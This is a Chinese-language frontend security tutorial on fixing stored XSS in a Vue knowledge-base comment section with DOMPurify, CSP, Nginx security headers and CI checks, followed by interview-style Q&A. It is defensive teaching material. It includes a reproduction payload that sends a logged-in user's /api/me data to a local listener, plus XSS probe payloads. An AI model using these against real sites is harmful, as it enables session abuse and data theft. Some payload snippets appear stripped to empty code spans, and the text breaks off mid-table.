



# 前端安全

## 一、工程案例：给一个带评论区的知识库补 XSS 防护与 CSP 并验证

**场景**：内部知识库（Vue 3 + Nginx，接口在 Spring Boot），文档下可以评论，评论用 `v-html` 渲染以保留换行和少量格式。安全扫描报了两条：评论区存在存储型 XSS；站点缺少 CSP 等安全响应头。

**为什么必须做**：这个站点的用户都登录着，评论区又是「一个人提交、所有人执行」的存储型入口。一条评论就能把所有访问者的身份拿去用——改文档、拉成员列表、发内部消息。而且它已经上线，修复不能靠「小心翼翼地改代码」，必须**先复现、再堵住、最后用响应头兜底**，每一步都有可验证的证据。

**动手前确认**：本地能跑起前端与接口；能改 Nginx；有一个可以随便糟蹋的测试环境；知道这个站点有没有 CDN（CDN 可能覆盖响应头）。

### 1.1 复现：先证明它真的能被打

起一个只用来收数据的监听端，端口随便挑一个没占用的：

```bash
node -e "require('http').createServer((req,res)=>{console.log('【收到】', decodeURIComponent(req.url)); res.end('ok')}).listen(9999, ()=>console.log('listening 9999'))"
```

在评论框提交下面这条，然后刷新页面：

```html
r.text()).then(t=>fetch('http://localhost:9999/steal?d='+encodeURIComponent(t)))">
```

预期结果：页面加载时浏览器尝试加载 `x` 失败，触发 `onerror`；脚本用**当前登录态**请求 `/api/me`，再把响应内容送到监听端。监听端打印出 `/steal?d=...` 才算命中——打印出的是接口返回的用户数据，不是 `localStorage` 里的东西。

这里故意不读 `localStorage`：真实站点把令牌放在 HttpOnly Cookie 里，脚本读不到，但照样能借着浏览器自动携带的 Cookie 调接口（详见 2.3）。**只要能读到任意一条本该只有本人可见的数据，危害就已经确认**，不用再堆更多载荷。

还有一个会让复现「莫名其妙失败」的点：页面是 HTTPS 时，向 `http://localhost:9999` 发请求属于混合内容，可能被浏览器直接拦掉。在本地 `http://localhost` 的开发环境里复现最省事；要在测试环境复现，就把监听端也换成 HTTPS。

如果没触发，按注入位置换载荷，而不是继续堆 `alert`：

| 注入位置 | 试探载荷 | 说明 |
|---|---|---|
| 元素内容里 | `` | 最常见 |
| 双引号属性里 | `" onmouseover="alert(1)` | 需要闭合引号 |
| 单引号属性里 | `' onmouseover='alert(1)` | 同上 |
| `<script>` 块里 | `</script><script>alert(1)</script>` | 需要先闭合 |
| `href` / `src` 里 | `javascript:alert(1)` | 不执行脚本标签也能跑 |

然后定位所有写入点，这一步比修 bug 重要——**不知道有几个口子，就等于没修**：

```bash
grep -rn "v-html\|dangerouslySetInnerHTML\|innerHTML\|outerHTML\|document.write\|insertAdjacentHTML" src/
```

```text
src/views/DocDetail.vue:45:   <div v-html="comment.content"></div>
src/components/MarkdownView.vue:88:  previewEl.innerHTML = rendered;
```

### 1.2 修复：按数据类型分三种处理

**① 纯文本评论——根本不该走 HTML**

```vue
<!-- src/views/DocDetail.vue 改前 -->
<div v-html="comment.content"></div>

<!-- 改后：交给插值，框架会自动转义 -->
<div class="comment-text">{{ comment.content }}</div>
```

```css
.comment-text { white-space: pre-wrap; word-break: break-word; }
```

`white-space: pre-wrap` 保住换行和连续空格，用户看到的排版几乎不变，但标签变成了文字。这一步能消掉 90% 的注入点，**成本最低、收益最大**。

**② Markdown 渲染结果——必须清洗，不能只靠转义**

Markdown 转出来的就是 HTML，转义会把整篇文档变成源码。用白名单清洗：

```bash
npm install dompurify
```

```typescript
// src/utils/sanitize.ts
import DOMPurify from 'dompurify';

const ALLOWED_TAGS = ['p', 'br', 'strong', 'em', 'del', 'ul', 'ol', 'li',
  'h1', 'h2', 'h3', 'h4', 'blockquote', 'code', 'pre', 'a', 'img', 'table',
  'thead', 'tbody', 'tr', 'th', 'td', 'hr'];

const ALLOWED_ATTR = ['href', 'title', 'src', 'alt', 'width', 'height', 'colspan', 'rowspan'];

export function sanitizeHtml(dirty: string): string {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS,
    ALLOWED_ATTR,
    ALLOW_DATA_ATTR: false,
    FORBID_TAGS: ['style', 'script', 'iframe', 'form', 'input', 'object', 'embed'],
    FORBID_ATTR: ['style', 'onerror', 'onload', 'onclick'],
  });
}
```

```vue
<!-- src/components/MarkdownView.vue：清洗放在数据进入 DOM 之前，不是之后 -->
<script setup lang="ts">
import { sanitizeHtml } from '@/utils/sanitize';
</script>

<template>
  <div class="markdown-body" v-html="sanitizeHtml(rendered)"></div>
</template>
```

验证清洗函数本身，别只信配置：

```javascript
sanitizeHtml('<p>ok</p><script>alert(1)</script>')
// 期望：'<p>ok</p>'
sanitizeHtml('')
// 期望：''
sanitizeHtml('<a href="javascript:alert(3)">x</a>')
// 期望：'<a>x</a>'
```

三条断言各管一件事：标签、事件属性、URL 协议。

`javascript:` 这类协议必须被剥掉——DOMPurify 默认会处理，但如果你自己配了 `ALLOWED_URI_REGEXP`，就等于重新开了口子。**改默认配置前先想清楚为什么改。**

清洗放在**渲染时**而不是**入库时**，还有两个好处：已经躺在库里的历史评论不用写迁移脚本，下次打开就安全了；以后调整白名单，旧数据也跟着生效。

**③ 链接跳转——只允许已知协议**

```typescript
export function safeUrl(raw: string): string {
  try {
    const u = new URL(raw, location.origin);
    return ['http:', 'https:', 'mailto:'].includes(u.protocol) ? u.href : '#';
  } catch {
    return '#';
  }
}
```

外链再加 `rel="noopener noreferrer"`：`noopener` 防止新窗口通过 `window.opener` 反向操控原页面，`noreferrer` 顺手去掉 Referer。现代浏览器已让 `target="_blank"` 默认带 `noopener`，但用户可自己填 `target` 的场景仍要显式写。

### 1.3 兜底：CSP 用两段式上线

CSP 配错会让整站白屏，所以**先只上报、不拦截**。第一版策略从「同源 + 明确列出的第三方」起步：

```nginx
# /etc/nginx/snippets/csp-report-only.conf
add_header Content-Security-Policy-Report-Only "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self' data:; connect-src 'self' https://api.example.com; frame-ancestors 'none'; object-src 'none'; base-uri 'self'; form-action 'self'; report-uri /csp-report" always;
```

```bash
sudo nginx -t && sudo systemctl reload nginx
curl -sI https://kb.example.com/ | grep -i content-security
```

Report-Only 只观察、不拦截，**`frame-ancestors` 在 Report-Only 模式下也不生效**（规范如此），所以点击劫持这段时间要靠 1.4 的 `X-Frame-Options` 顶着。

观察几天，把 `document-uri`、`blocked-uri`、`violated-directive` 三条收齐（`violated-directive` 是历史字段名，新字段叫 `effective-directive`，两者值相同）：

```javascript
// 上报接收端点（后端是 Spring Boot 也行，这里用 Express 展示字段结构）
app.post('/csp-report', express.json({ type: ['application/csp-report', 'application/json'] }), (req, res) => {
  const r = req.body['csp-report'] ?? req.body;
  console.warn('[CSP]', { page: r['document-uri'], blocked: r['blocked-uri'], dir: r['violated-directive'] });
  res.status(204).end();
});
```

报告里的 `blocked-uri`、`script-sample` 都是**攻击者可控制的内容**，只当日志写，别直接拼进后台页面的 HTML。

`report-uri` 已被 `report-to` 取代，但浏览器兼容性至今不一致：稳妥写法是两个都写，`report-to` 的端点另外用 `Reporting-Endpoints`（旧规范写作 `Report-To`）响应头声明，**以官方当前版本为准**。只写 `report-uri` 在多数浏览器仍然有效，这也是 1.3 先用它的原因。

把报告里真实出现的来源按指令补进去，然后切强制模式。**如果有内联脚本**（埋点、SSR 注入的初始数据），不要图省事加 `'unsafe-inline'`——那等于把 XSS 的最大一类入口又打开。正确做法是 nonce。

nonce 必须由**应用**在渲染 HTML 时生成，同一响应里写两处：响应头一次、每个内联 `<script>` 一次。Nginx 静态托管做不了这件事（它不会改 HTML 正文），只能由 SSR 或模板层完成。以入口页由后端模板渲染为例：

```javascript
// Express + 模板：每次请求生成一个随机值（import crypto from 'node:crypto'）
app.use((req, res, next) => {
  res.locals.nonce = crypto.randomBytes(16).toString('base64');
  res.setHeader('Content-Security-Policy',
    `default-src 'self'; script-src 'self' 'nonce-${res.locals.nonce}'; object-src 'none'; base-uri 'self'`);
  next();
});
```

```html
<script nonce="<%= nonce %>">window.__INITIAL_STATE__ = <%- JSON.stringify(state) %>;</script>
```

nonce 每次请求都不同，所以**带 nonce 的页面不能被强缓存**，这一条必须记住，否则用户会拿到一个 nonce 已失效的 HTML。纯静态 SPA 用不了 nonce，只能把内联脚本挪到外部文件，或用 hash。

### 1.4 补齐其余安全头

```nginx
# /etc/nginx/snippets/security-headers.conf
add_header X-Content-Type-Options "nosniff" always;
add_header Referrer-Policy "strict-origin-when-cross-origin" always;
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;
add_header X-Frame-Options "DENY" always;
```

```nginx
# /etc/nginx/conf.d/kb.conf：80 端口负责跳转
server {
    listen 80;
    server_name kb.example.com;
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name kb.example.com;
    # 只在 server 级 include 一次，所有 location 默认继承
    include snippets/security-headers.conf;
    include snippets/csp-report-only.conf;

    location /assets/ {
        # 自己加了 add_header，父级的会全部失效，所以这里再 include 一次；
        # 静态资源不是文档，不需要 CSP，只补安全头
        add_header Cache-Control "public, max-age=31536000, immutable";
        include snippets/security-headers.conf;
        try_files $uri =404;
    }

    location / {
        try_files $uri $uri/ /index.html;
    }

    error_page 404 /404.html;
    location = /404.html {
        # 这里没有自己的 add_header，所以能继承 server 级的安全头
    }
}
```

`frame-ancestors 'none'` 已经覆盖点击劫持，`X-Frame-Options` 是给老浏览器看的，两者一起写没有冲突。**`always` 不能省**：不加的话 `add_header` 默认只在 2xx/3xx 生效，404 和 500 页面就是裸的。

继承规则要记牢：某个 `location` 里只要出现**任意一条** `add_header`（如上例的 `Cache-Control`），父级的 `add_header` 就全部失效，必须把片段再 include 进来；但别在**没有自己 `add_header`** 的层级重复 include——同一响应会出现两份头，而两份 CSP 是**取交集**，越配越严，排查起来很费劲（详见 2.7）。

### 1.5 验收：9 项全过才算交付

| # | 检查项 | 命令或检查 | 通过标准 |
|---|---|---|---|
| 1 | 原载荷失效 | 重新提交 1.1 的 `` | 评论以纯文本显示，监听端无输出 |
| 2 | 清洗函数正确 | 跑 1.2 的三条断言 | 输出中无 `script`、无 `onerror`、无 `javascript:` |
| 3 | 写入点收敛 | `grep -rn "innerHTML\|v-html" src/` | 剩余项全部经过 `sanitizeHtml` |
| 4 | CSP 已下发 | `curl -sI https://kb.example.com/ \| grep -i content-security-policy` | 有值，且不含 `unsafe-inline`（`style-src` 除外） |
| 5 | CSP 真能拦 | Console 里创建内联 script 并插入 | 不执行，报 `Refused to execute inline script` |
| 6 | 错误页也有头 | `curl -sI https://kb.example.com/assets/not-exist.js` | `404` 仍带全部安全头 |
| 7 | 点击劫持被拒 | 本地建页面 `<iframe src="https://kb.example.com">` | iframe 空白，Console 报拒绝嵌入 |
| 8 | HTTPS 强制 | `curl -sI http://kb.example.com` | `301` 且 `Location` 指向 https |
| 9 | 无违规噪音 | 观察 24h 的 CSP 报告 | 无业务资源被拦，报告量趋近 0 |

第 5 项的验证代码：

```javascript
const s = document.createElement('script');
s.textContent = 'alert("CSP 没拦住")';
document.body.appendChild(s);
// 预期：不弹窗，Console 出现 Refused to execute inline script
```

第 6 项特别容易漏。安全头写在 `server` 级，`404` 由 `error_page` 内部跳到另一个 `location`，如果那个 `location` 自己加了 `add_header`，头就丢了。SPA 还有一层干扰：`location /` 的 `try_files` 会把不存在的路径回落成 `index.html`（200），所以要用 `/assets/` 下不存在的文件去测真正的 404。

### 1.6 把检查写进 CI

```yaml
- name: 危险 HTML 写入检查
  run: |
    hits=$(grep -rnE "v-html|dangerouslySetInnerHTML|innerHTML\s*=" src/ | grep -v sanitizeHtml || true)
    if [ -n "$hits" ]; then echo "$hits"; echo "存在未经清洗的 HTML 写入"; exit 1; fi
- name: 安全响应头检查
  run: |
    for h in content-security-policy x-content-type-options referrer-policy strict-transport-security; do
      curl -sI "$PREVIEW_URL" | grep -qi "^$h:" || { echo "缺少 $h"; exit 1; }
    done
```

CI 这条 grep 只能拦住「新写的裸写入」，拦不住「清洗函数配错」。所以**验收表第 2 项要留在单元测试里**，把清洗函数当成一个有输入输出的纯函数来测，比扫描代码可靠得多。

---

## 二、高频问答：会卡住你的地方，也是面试最常问的

### 2.1 加上 CSP 之后全站白屏

**现场**

Console 里第一条就是 `Refused to execute inline script because it violates the following Content Security Policy directive`，并指明指令名。

**要点**

- 不是策略写错，是页面里有内联 `<script>`、内联事件属性（`onclick=`）、`eval` 或内联样式，被 `script-src` / `style-src` 挡住。
- 构建产物里的运行时（如某些 SSR 注入的初始状态）几乎必然是内联的，所以强制模式一上线就白。
- 删掉 CSP 等于把兜底拿掉，问题还在；按报错里的 `directive` 和 `blocked-uri` 补来源，内联脚本改 nonce 或外链，事件属性改成 `addEventListener`。
- 先用 `Content-Security-Policy-Report-Only` 跑一遍，就能提前发现全部命中项。

**追问**

- 为什么 `style-src` 常留 `'unsafe-inline'`？→ 组件库动态插样式，全量改造成本高，属于现实妥协。
- nonce 和 hash 怎么选？→ 能缓存的页面用 hash，必须动态注入的用 nonce。
- Report-Only 会拦截吗？→ 不会，只上报；`frame-ancestors` 在 Report-Only 下也不生效，规范如此。

### 2.2 明明用了 DOMPurify，还是被注入

**现场**

在清洗函数的出口 `console.log`，看进入 DOM 的到底是原串还是清洗后的串。

**要点**

- 「调用过」不等于「生效了」，断点要打在 `innerHTML` 赋值那一行，看右值是哪个变量。
- 常见错位：先 `innerHTML` 赋值再清洗（已经执行了）、清洗后的值又被拼进模板、放宽了 `ALLOWED_URI_REGEXP` 或允许了 `style`。
- 清洗必须在赋值之前，且只对最终要插入的字符串做一次。
- 再看 DOMPurify 的配置有没有 `ADD_ATTR`、`ALLOW_UNKNOWN_PROTOCOLS` 这类放宽项。

**追问**

- 为什么不在入库时清洗？→ 历史数据要写迁移脚本，白名单调整也不生效。
- `ADD_TAGS: ['*']` 有什么问题？→ 等于关掉白名单，黑名单永远漏。
- 清洗两次会怎样？→ 第二次可能把实体再转义，富文本格式坏掉。

### 2.3 Cookie 设了 HttpOnly，还是被盗了

**现场**

看攻击载荷是不是只在读 `document.cookie`；换成同源请求的载荷再测一次。

**要点**

- XSS 根本不需要读 Cookie：脚本在页面里可以直接 `fetch('/api/transfer', { credentials: 'include' })`，浏览器会自动带上 HttpOnly Cookie。
- HttpOnly 只挡读取，不挡「借用身份发请求」；它是降低危害，不是消除危害。
- 根治只能靠输出转义 + CSP，Cookie 属性救不了已经进来的脚本。

**追问**

- 那 HttpOnly 还有用吗？→ 挡住直接窃取令牌长期冒用，仍然该设。
- 为什么说 XSS 优先级高于 CSRF？→ XSS 能读到 CSRF Token，双提交模式直接失效。
- `SameSite` 能兜住吗？→ 同站请求照样带 Cookie，兜不住。

### 2.4 加了 CSRF Token，攻击还是成功

**现场**

把请求里的 Token 头删掉重发，看后端是否仍返回 200。

**要点**

- 最常见的真相是后端没校验——前端加了个头，后端压根没读。
- 其次是 Token 存在非 HttpOnly 的 Cookie 里（双提交模式），而站点同时有 XSS，脚本能读到 Token 也能读到 Cookie。
- Token 还必须与用户会话绑定，不能是全局固定值。

**追问**

- 怎么用一条命令验证？→ 直接用 `curl` 发一个不带 Token 的写请求，成功就说明后端没校验。
- 双提交模式的前提是什么？→ 攻击者读不到那个 Cookie，所以必须先防住 XSS。
- `Origin` 校验能替代 Token 吗？→ 能挡大部分，但 `Origin` 可能缺失，通常两者都上。

### 2.5 为了让跨站请求带 Cookie，设了 SameSite=None，CSRF 又回来了

**现场**

看该 Cookie 是否真的需要跨站携带；用跨站表单提交测试是否被接受。

**要点**

- `SameSite=None` 本身就是为了允许跨站携带，等于关掉了浏览器这层 CSRF 防护。
- 很多「嵌入」场景其实是同站子域（same-site），`SameSite=Lax` 本来就会带上，根本不用改 `None`；只有分属不同注册域时才是跨站。
- 确实必须 `None` 时，CSRF Token 和 `Origin` 校验就必须都上，不能只留一层。

**追问**

- same-site 和 same-origin 的区别？→ 可注册域相同即 same-site，子域和端口不影响。
- 为什么不能退回不设？→ 现代浏览器默认 `Lax`，不设等于 `Lax`。
- `None` 为什么必须配 `Secure`？→ 否则浏览器直接丢弃，而且不报错。

### 2.6 `npm audit` 报了一堆漏洞，一个都修不动

**现场**

看 `npm ls <包名>` 是谁引入的；再看漏洞的触发条件（是否只在服务端、是否只在特定配置下）。

**要点**

- 有 CVE 不等于我受影响；审计报告按「有没有漏洞」排序，不按「能不能被利用」排序。
- 漏洞在传递依赖里时上游可能没发新版，`--force` 会跨大版本升级，可能直接弄坏构建。
- 先定位引入链，再看 advisories 里的受影响版本区间与使用条件；只在 SSR 下触发的漏洞，纯 SPA 不受影响。
- 真无解时用 `overrides`（npm）/ `resolutions`（yarn）钉住安全版本，并记录原因和复查时间。

**追问**

- `--force` 为什么危险？→ 跨大版本升级，可能把构建直接升崩。
- 怎么判断漏洞会不会进产物？→ `npm audit --omit=dev`，再看构建报告。
- `overrides` 有什么代价？→ 绕过 semver，可能引入不兼容，要回归。

### 2.7 安全头在首页有，静态资源和错误页没有

**现场**

分别 `curl -I` 首页、一个 JS、一个不存在的路径，逐条对比。

**要点**

- Nginx 的 `add_header` 在子 `location` 里一旦出现，就会**覆盖父级全部 `add_header`**。
- 不加 `always` 时，4xx/5xx 响应根本不加头；只测首页一定会漏。
- 修法是抽成 `include` 片段，在每个 location 里显式引入；或者用 `add_header ... always` 并接受重复。

**追问**

- 为什么重复 include 也危险？→ 同一响应出现两份 CSP 是取交集，越配越严，排查很费劲。
- `error_page` 内部跳转后头为什么丢？→ 落到另一个 `location`，继承规则重新计算。
- `always` 加在哪？→ 每条 `add_header` 都要加，不能只加一条。

### 2.8 CSP 违规报告一条都收不到

**现场**

对齐响应头里的 `report-to` 组名与端点声明；Network 里看有没有发往上报地址的 POST（`Content-Type` 为 `application/csp-report` 或 `application/reports+json`）；再手动 `curl` 一次端点。

**要点**

- 只写了 `report-to` 却没声明端点：缺少 `Reporting-Endpoints`（旧写法 `Report-To`）响应头，或组名对不上，报告就发不出去。
- 也可能是策略挂在 Report-Only 头里却压根没写上报指令，或者上报端点被 CSRF 中间件、鉴权挡成了 4xx。
- 上报是浏览器自己的报告机制发出的，**不受 `connect-src` 管辖**，别为了它去放宽连接白名单。
- 兼容做法是把 `report-uri` 一起写上，以官方当前版本为准。

**追问**

- 为什么上报端点不能过 CSRF 校验？→ 它是普通 POST，没有 Token，会被 403 吃掉。
- `report-uri` 和 `report-to` 的区别？→ 前者是单个 URL，后者要先声明端点组，走 Reporting API。
- 早期 Safari 拦掉上报算配置问题吗？→ 不算，是浏览器 bug。

### 2.9 富文本清洗完，格式全丢 / 图片全没了

**现场**

用一段包含目标标签的样本单独跑清洗函数，看输出少了什么。

**要点**

- 白名单里没列该标签或属性（`<table>`、`colspan`、`` 之类），或者清洗后又过了一遍转义。
- 想用正则替代解析器是错的方向：HTML 不是正则语言，`` 的变体无穷，黑名单永远漏。
- 把允许的标签列成常量，用样本逐条比对输出，缺什么补什么。

**追问**

- 能加 `ADD_TAGS: ['*']` 吗？→ 等于关掉白名单，不要因为嫌麻烦就放开。
- 为什么清洗后还要再想一遍用途？→ 只展示用 `textContent` 更安全，真要格式才走清洗 + `innerHTML`。
- `colspan` 这类属性为什么要显式列？→ 它默认不在白名单里，漏了就丢格式。

### 2.10 前端把按钮藏了，接口还是被越权调用

**现场**

用一个无权限账号的 token，`curl` 直接打写接口。

**要点**

- 前端权限控制本身不是安全边界，改 JS、直接调接口都能绕过。
- 前端隐藏只负责「不给正常用户误点的机会」，权限判断必须在后端每个接口上做。
- 拿低权限 token 直连接口，返回 200 就说明后端没校验。

**追问**

- 后端只校验角色够吗？→ 不够，还要校验「这个资源属不属于你」，只校验角色是最常见的越权形态。
- 为什么前端还要做权限？→ 体验和即时反馈，不是安全。
- 越权该返回 403 还是 404？→ 不想暴露资源存在就用 404。

### 2.11 开放附件上传后，上传目录自己成了 XSS 入口

**现场**

传一个 `poc.svg`（内含 `<script>`）和一个 `poc.html`，直接访问返回的 URL，看是否渲染、是否执行。

**要点**

- `accept="image/*"` 只过滤选择框，改请求就能传任意文件；前端校验不是安全边界。
- 附件和站点同源时，`.html`、`.svg` 会被浏览器当页面解析，服务端再返回 `text/html`，脚本就跑起来了。
- 修法：附件放独立域名或对象存储，响应强制 `Content-Disposition: attachment`，`Content-Type` 按白名单推导，再配 `X-Content-Type-Options: nosniff`。
- 图片一律服务端转码成位图后再落盘。

**追问**

- 为什么 SVG 特别危险？→ 它是 XML，能内嵌 `<script>` 和事件属性。
- 转码成位图解决什么？→ 彻底去掉可执行内容，只留像素。
- 只看 `Content-Type` 能防住吗？→ 不能，还要 `nosniff` 和独立域名，避免同源执行。
---

## 三、核心知识：从零开始要建立的东西

### 3.1 浏览器安全模型的三个边界

浏览器把「谁的数据」划得很清楚，攻击基本都发生在边界被穿透的地方：



三条边界分别对应三类问题：**同源策略**管「能不能读对方的数据」，破了就是信息泄露；**脚本执行边界**管「谁的代码在跑」，破了就是 XSS；**身份边界**管「请求带不带凭证」，破了就是 CSRF。

第三条边界最容易被忽略：**浏览器不知道「这次点击是不是用户本意」**，它只认 Cookie 属于这个域，就带上。CSRF 利用的正是这一点。

### 3.2 XSS 的三条数据路径

| 类型 | 恶意数据在哪 | 触发时机 | 典型入口 |
|---|---|---|---|
| 存储型 | 服务器数据库 | 每个访问者打开页面时 | 评论、昵称、文档、头像文件名 |
| 反射型 | URL 参数 | 受害者点开构造好的链接 | 搜索结果页、错误提示页 |
| DOM 型 | 浏览器里的 URL / 存储 | 前端代码自己把数据写进 DOM | `location.hash` 直接进 `innerHTML` |

三者的区别只在**数据怎么到达前端**，利用方式和防御完全一样：**在数据进入 HTML 解析器之前处理它**。DOM 型的特殊之处是**数据从头到尾没经过服务器**，所以服务端日志里看不到攻击，只能靠前端代码审查和 CSP 发现。

```javascript
// DOM 型的最小复现
const q = new URLSearchParams(location.search).get('q');
document.getElementById('tip').innerHTML = `没有找到 “${q}”`;
// 访问 /search?q= 就会执行
```

> **面试**：常问「存储型、反射型、DOM 型 XSS 的区别是什么？」答：区别只在恶意数据怎么到达前端，防御一样，都是在进入 HTML 解析器之前处理。

### 3.3 转义规则与插入位置的对应

这是 XSS 防御里最核心的一条认知：**没有「通用的转义」，只有「针对当前位置的转义」**。同一段用户输入，插到不同上下文里需要的处理完全不同。

| 插入位置 | 危险字符 | 处理方式 |
|---|---|---|
| HTML 元素内容 | `<` `>` `&` | HTML 实体转义 |
| HTML 属性值 | `"` `'` `&` | 属性值必须加引号 + 实体转义 |
| `<script>` 内部 | `</script>`、引号 | 不要拼字符串，用 `JSON.stringify` 且转义 `<` |
| URL 参数 | `&` `=` `#` | `encodeURIComponent` |
| CSS 值 | `(` `)` `;` | 不要拼接，用 class 切换 |
| `href` / `src` | `javascript:` `data:` | 协议白名单 |

```javascript
// 属性值场景：只转义尖括号是不够的
el.setAttribute('title', userInput);   // ✔ 用 API 赋值，浏览器负责转义
el.innerHTML = `<div title="${userInput}">`;  // ✘ 引号能闭合属性，注入新属性
```

**最可靠的策略是不拼 HTML**：能用 `textContent` 就不用 `innerHTML`，能用 `setAttribute` 就不用字符串拼接。API 层的赋值天然带转义，比记规则更稳。

### 3.4 富文本的白名单清洗

富文本是唯一「必须保留 HTML」的场景，因此也是唯一必须引入清洗器的场景。它的原理不是「找坏人」，而是**只保留已知安全的东西**：

```text
输入 HTML → 解析成 DOM 树 → 遍历节点
  ├─ 标签不在白名单 → 拆掉标签，保留文本（或整段删除）
  ├─ 属性不在白名单 → 删除属性
  ├─ 属性值是 URL → 校验协议
  └─ 输出序列化后的安全 HTML
```

黑名单为什么不行：``、`<svg onload>`、`<iframe srcdoc>`、大小写变形、编码变形、浏览器容错解析——变体是无穷的。而白名单只需要回答「我允许哪些」，答案有限且可控。

| 配置项 | 建议 | 原因 |
|---|---|---|
| `ALLOWED_TAGS` | 显式列出业务需要的 | 漏一个就是开口子 |
| `ALLOWED_ATTR` | 只给必要的 | `style` 可用来做 UI 伪装 |
| `ALLOW_DATA_ATTR` | `false` | 用不到就别放行，减少隐性的样式/脚本钩子 |
| `FORBID_TAGS` | 加 `style`/`iframe`/`form` | 这些能独立造成危害 |
| URL 协议 | 默认白名单，别放宽 | `javascript:` 是最直接的执行路径 |

清洗后的结果**还要再想一遍用途**：如果只是展示，`textContent` 更安全；只有真的需要渲染格式，才走清洗 + `innerHTML`。

### 3.5 CSP 的工作机制

CSP 是一个响应头，告诉浏览器「这个页面允许从哪加载什么、允许执行什么」。它是**白名单**，默认拒绝。

```text
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; object-src 'none'
```

它挡的不是「注入」本身，而是**注入之后的执行**。所以 CSP 是兜底，不是替代品：XSS 已经成功（恶意 HTML 进了页面），但脚本跑不起来，危害被截断。

| 指令 | 管什么 | 常见值 |
|---|---|---|
| `default-src` | 未单独指定时的默认值 | `'self'` |
| `script-src` | 脚本来源与执行方式 | `'self'` + nonce |
| `style-src` | 样式来源 | `'self' 'unsafe-inline'`（组件库常见妥协） |
| `img-src` | 图片 | `'self' data: https:` |
| `connect-src` | `fetch` / XHR / WebSocket | `'self' https://api.example.com` |
| `font-src` | 字体 | `'self'` |
| `frame-src` | 允许嵌入的 iframe | `'self'` |
| `frame-ancestors` | **谁可以嵌入我** | `'none'` |
| `form-action` | 表单能提交到哪 | `'self'` |
| `base-uri` | 限制 `<base>` | `'self'` |
| `object-src` | 插件 | `'none'` |

两个高频误解：

1. **`default-src 'self'` 不是「只限制脚本」，而是「所有没单独写的指令都只允许同源」**。脚本、图片、字体、`fetch` 会一起受限，最容易出现图片全挂、接口全断。应该按指令分别写，`default-src` 只做兜底。
2. **`'unsafe-inline'` 一加，内联脚本的防护就归零**。它的存在是为了兼容老代码，不是常规选项。真要允许少量内联，用 nonce 或 hash。

`frame-ancestors` 与其他指令有个本质区别：它管的是「本页能不能被嵌」，而不是「本页能嵌谁」。**方向反了就会配成 `frame-src`，然后一点用都没有。**

> **面试**：常问「CSP 能替代输出转义吗？」答：不能，它挡的是注入之后的执行，是兜底；XSS 已经成功，只是脚本跑不起来。

### 3.6 nonce 与 hash 的取舍

允许内联脚本的两条正路：

| | nonce | hash |
|---|---|---|
| 依据 | 每次请求生成的随机值 | 脚本内容的摘要 |
| 页面能否缓存 | **不能**（nonce 每次不同） | 可以 |
| 适用 | SSR 注入的初始数据、动态埋点 | 固定的初始化片段 |
| 配置位置 | 响应头 + 每个 script 标签 | 只写在响应头 |
| 出错表现 | nonce 不一致 → 全部内联脚本被拒 | 内容改一个字符 → 哈希失效 |

```text
script-src 'nonce-8f3a1c' 'sha256-47DEQpj8HBSa+/TImW+5JCeuQeRkm5NMpJWZG3hSuFU='
```

取舍很清楚：**能缓存的页面用 hash，必须动态注入的用 nonce**。用 nonce 就要接受入口 HTML 不能强缓存——这本来也是入口该有的策略。用 hash 就要接受「改一个字就得重算」，所以只适合稳定的公共片段。

### 3.7 CSP 的两段式上线



顺序不能反。直接强制上线，漏一个来源就是整块功能不可用，而且**报错只在用户浏览器里**，你未必收得到。

`report-uri`（旧）与 `report-to`（新）的区别：前者是单个 URL，POST 一条 JSON；后者要先在 `Reporting-Endpoints`（旧规范写作 `Report-To`）里声明端点组，再在策略里引用组名，走 Reporting API，支持批量与重试。**兼容写法是两个都写**；上报是浏览器报告机制自己发的，**不受 `connect-src` 约束**，别为了它去放宽连接白名单。各浏览器对两者的取舍仍在变，**以官方当前版本为准**。

### 3.8 CSRF 的成立条件

CSRF 要成功，四个条件同时成立：

1. 用户在该站点**处于登录态**（有可用 Cookie）；
2. 请求能被**跨站发起**（`<form>`、``、`<script>`、`fetch` 都行）；
3. 浏览器**自动带上**该站 Cookie；
4. 服务端**只看 Cookie 判断身份**，不校验请求来源。

四条里断掉任意一条，攻击就失败。所以防御不是一招，而是逐条拆：

| 断哪一条 | 手段 |
|---|---|
| 条件 3 | `SameSite=Strict` / `Lax` |
